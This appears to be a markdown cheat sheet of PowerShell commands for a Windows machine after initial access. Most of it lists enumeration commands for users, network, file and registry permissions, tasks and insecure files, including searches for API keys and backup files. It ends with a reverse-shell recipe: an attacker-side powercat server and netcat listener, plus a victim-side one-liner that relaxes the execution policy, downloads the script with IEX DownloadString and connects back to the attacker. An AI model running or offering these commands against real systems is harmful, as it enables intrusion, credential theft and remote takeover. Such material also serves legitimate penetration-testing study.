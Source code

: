 # Enumeration

The first step when you have gained initial access to any machine would be to enumerate. We'll be enumerating the following:
## users:
```
Get-LocalUser
(Get-LocalUser).Name
(Get-LocalUser).Name.Count
Get-LocalUser -SID "sid_value"
Get-LocalUser | Where-Object -Property PasswordRequired -Match false
Get-LocalGroup | measure
```
## basic networking information:
```
Get-NetIPAddress
Get-NetTCPConnection | Where-Object -Property State -Match Listen | measure
get-nettcpconnection | where {$_.state -eq "listen" -and $_.localport -eq 445}
Get-NetRoute
Get-NetAdapter -Name * -IncludeHidden
Get-NetAdapter -Name * -Physical
netstat -an | findstr LISTENING | sort
```
## file permissions:
```
Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
Get-Acl C:\ | Format-List
Get-ChildItem C:\ -Recurse | Get-Acl | Select-Object PSChildName, AccessToString | Format-List
```
## registry permissions:
```
Get-Acl "HKLM:\Software" | Format-List
Get-Hotfix
Get-Hotfix -Id KB4023834
```
## scheduled and running tasks:
```
Get-Process
Get-ScheduledTask -TaskName * | Format-List
Get-ScheduledTask | Where-Object {$_.State -eq "Running"}
get-scheduledtask | where {$_.taskname -eq "new-sched-task"}
Get-Process -Id (Get-NetTCPConnection -LocalPort YourPortNumberHere).OwningProcess
Get-Process -Id (Get-NetUDPEndpoint -LocalPort YourPortNumberHere).OwningProcess
```
## insecure files:
```
Get-ChildItem -Recurse C:\ | Get-Acl | Where-Object {($_.AccessToString -match "Everyone") -and ($_.AccessToString -match "FullControl")}
Get-ChildItem -Hidden -Path
```
 
# Reverse Shell

## Attacker's Machine:
```
git clone https://github.com/besimorhino/powercat && cd powercat
python3 -m http.server 8080
nc -lvnp 1337
```
## Victim's Machine:
- Execution Policy:
```
Get-ExecutionPolicy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
- Download and execute payload:
```
IEX(New-Object System.Net.WebClient).DownloadString('http://[Attacker's IP]:8080/powercat.ps1'); powercat -c [Attacker's IP] -p 1337 -ep
```

